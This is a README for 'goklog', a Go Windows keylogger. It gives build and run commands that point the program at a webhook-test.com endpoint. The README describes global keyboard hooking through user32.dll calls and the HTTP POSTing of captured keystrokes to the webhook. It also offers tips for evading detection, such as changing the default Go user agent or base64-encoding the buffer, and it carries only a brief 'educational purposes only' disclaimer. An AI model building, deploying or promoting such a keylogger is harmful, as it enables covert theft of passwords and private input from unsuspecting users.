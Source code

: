 # goklog
Go based Windows Keylogger sending ASCII to Webhooks

## Syntax
go build -o goklog.exe goklog.go
.\goklog.exe 'https://webhook-test.com/<YOUR-UNIQUE-IDENTIFIER>'

## Disclaimer
Educational purposes only. 

## Context 
Uses native Windows API calls including SetWindowsHookExW, CallNextHookEx, GetMessageW from user32.dll to globally monitor keyboard strokes and then filters out ASCII printable characters and HTTP POSTs them to a webhook. Notice that I leave default go client user agents. You need to change that yourself or add base64 and include unicode or non printable characters as part of your buffer.
Notes about what I learned from varying articles and Go syntax constructs vs. Python in the comments. 
